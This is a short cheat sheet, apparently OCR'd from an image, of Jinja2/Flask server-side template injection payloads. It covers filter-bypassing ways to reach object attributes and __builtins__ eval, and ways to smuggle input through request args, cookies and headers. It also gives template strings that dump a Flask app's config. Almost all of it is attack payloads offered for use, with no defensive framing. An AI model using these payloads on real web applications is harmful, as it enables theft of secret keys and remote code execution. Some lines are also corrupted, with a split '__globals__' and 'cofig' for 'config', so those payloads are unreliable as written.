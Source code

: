 ```python

list.__getitem__(0)

list.pop(0)
```

### Several ways to obtain object elements in SSTI
```python
class.attr

class.__getattribute__('attr')

class['attr']

class|attr('attr')

"".__class__.__mro__.__getitem__(2)

['__builtins__'].__getitem__('eval')

class.pop(40)
```

### request bypass injection
```python
request.args.name #GET name

request.cookies.name #COOKIE name

request.headers.name #HEADER name

request.values.name #POST or GET Name

request.form.name #POST NAME

request.json #Content-Type json
```

###Realize config reading by getting the current_app object to obtain the context information of the current flask App
```python
{{url_for.__globals__.current_app.config}}

{{url_for.__glo
bals__['current_app'].config}}

{{get_flashed_messages.__globals__['current_app'].config.}}

{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].cofig}}
```
